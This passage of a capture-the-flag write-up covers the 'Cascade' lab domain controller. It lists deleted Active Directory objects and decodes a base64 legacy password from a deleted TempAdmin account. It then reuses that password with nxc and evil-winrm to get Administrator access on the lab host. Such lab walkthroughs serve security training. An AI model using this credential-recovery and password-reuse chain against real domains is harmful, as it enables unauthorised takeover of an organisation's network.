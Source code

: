 ```bash

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

TempAdmin seems the most interesting. Let’s investigate more and list all the object’s properties:

```bash
Get-ADObject -Filter 'Name -like "*TempAdmin*"' -IncludeDeletedObjects -Properties *

interesting result:
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

Again, this looks like base64, let’s decode it:

```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d 

result:
baCT3r1aN00dles
```

Let’s see if this password is reused:

```bash
nxc smb 10.10.10.182 -u Administrator -p baCT3r1aN00dles

result:
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```

We now have administrative access!

```bash
evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```